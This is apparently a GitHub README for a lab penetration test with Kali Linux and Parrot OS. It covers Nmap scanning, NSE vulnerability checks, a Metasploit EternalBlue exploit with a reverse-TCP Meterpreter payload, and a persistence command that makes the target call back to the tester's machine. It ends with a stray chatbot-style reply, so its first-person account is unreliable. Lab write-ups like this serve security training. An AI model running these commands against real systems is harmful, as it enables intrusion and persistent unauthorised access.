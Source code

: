 # Simulated Penetration Test Using Kali Linux and Parrot OS

**Overview:**
This project demonstrates a comprehensive penetration test I conducted using Kali Linux and Parrot OS. The process involved network reconnaissance, vulnerability detection, and exploitation using industry-standard tools like Nmap, Metasploit, and Wireshark. The purpose of this project was to simulate a real-world penetration test to identify vulnerabilities and improve network security.

---

## **Project Details**

### **1. Environment Setup**
I began by setting up virtual environments for both **Kali Linux** and **Parrot OS** on VirtualBox. I used these platforms to perform the penetration testing, leveraging their built-in tools for network scanning, reconnaissance, and exploitation.

- Kali Linux download: [Kali Linux Download](https://www.kali.org/get-kali/#kali-bare-metal)
- Parrot OS download: [Parrot OS Download](https://www.parrotsec.org/download/)

---

### **2. Network Reconnaissance (Nmap)**

Using **Nmap**, I performed a full network scan to discover active devices, open ports, and services. This helped me map out the target network and identify potential vulnerabilities that could be exploited.

- **Ping Sweep:**
  ```bash
  nmap -sn 192.168.1.0/24
  ```
  This command identified all active hosts within the target subnet.
  
- **Port Scanning:**
  ```bash
  nmap -p 22,80,443 192.168.1.10
  ```
  This was used to check for open ports (SSH, HTTP, and HTTPS) on a specific host.

- **Service Version Scanning:**
  ```bash
  nmap -sV 192.168.1.10
  ```
  This provided detailed information on the versions of services running on open ports.

---

### **3. Vulnerability Detection (Nmap Scripting Engine)**

I leveraged the **Nmap Scripting Engine (NSE)** to detect potential vulnerabilities on the target machines.

- **Vulnerability Scan:**
  ```bash
  nmap --script vuln 192.168.1.10
  ```
  This script ran a scan to identify vulnerabilities such as unpatched software or misconfigurations.

- **Specific Vulnerability (SMB Exploit):**
  ```bash
  nmap --script smb-vuln-ms17-010 192.168.1.10
  ```
  This detected the infamous **EternalBlue (MS17-010)** vulnerability, commonly used in ransomware attacks.

---

### **4. Exploitation (Metasploit Framework)**

Using **Metasploit**, I exploited identified vulnerabilities to gain access to the target system. For example, I used the **EternalBlue exploit** to compromise a machine running a vulnerable SMB service.

- **Launching Metasploit:**
  ```bash
  msfconsole
  ```

- **Exploiting SMB Vulnerability (EternalBlue):**
  ```bash
  use exploit/windows/smb/ms17_010_eternalblue
  set RHOST 192.168.1.10
  set LHOST [My IP Address]
  set payload windows/meterpreter/reverse_tcp
  exploit
  ```

Once the exploit was successful, I gained control of the system through a **Meterpreter** shell.

---

### **5. Post-Exploitation Activities (Meterpreter)**

With control of the system, I performed various post-exploitation tasks to simulate real-world attack scenarios, such as extracting system information, capturing sensitive files, and establishing persistent access.

- **Checking System Info:**
  ```bash
  sysinfo
  ```

- **Navigating File System:**
  ```bash
  ls
  cd Documents
  ```

- **Maintaining Access (Persistence):**
  ```bash
  run persistence -X -i 10 -p 8080 -r [My IP Address]
  ```

This ensured that even after a reboot, the compromised system would automatically reconnect to my machine.

---

### **6. Reporting & Documentation**

After completing the penetration test, I generated a comprehensive report outlining all identified vulnerabilities, their potential impact, and recommended remediations. I used **Dradis Framework** for creating detailed reports and documenting each stage of the process.

---

## **Key Tools & Technologies:**

- **Operating Systems:** Kali Linux, Parrot OS
- **Tools:** Nmap, Metasploit, Wireshark, Msfvenom
- **Languages:** Bash scripting
- **Reporting Tool:** Dradis Framework

---

## **Lessons Learned:**

- **Network Scanning:** Learned how to effectively map networks and identify open ports using Nmap.
- **Exploitation Techniques:** Exploited vulnerabilities using Metasploit and custom payloads.
- **Post-Exploitation:** Gained hands-on experience in maintaining access and performing reconnaissance inside a compromised system.
- **Reporting:** Developed skills in documenting findings and providing remediation suggestions to strengthen network security.

---

Feel free to use this format for your GitHub repository! You can include code snippets, screenshots, and links to relevant tools just as shown above to make it look polished and professional. Let me know if you'd like any further adjustments!
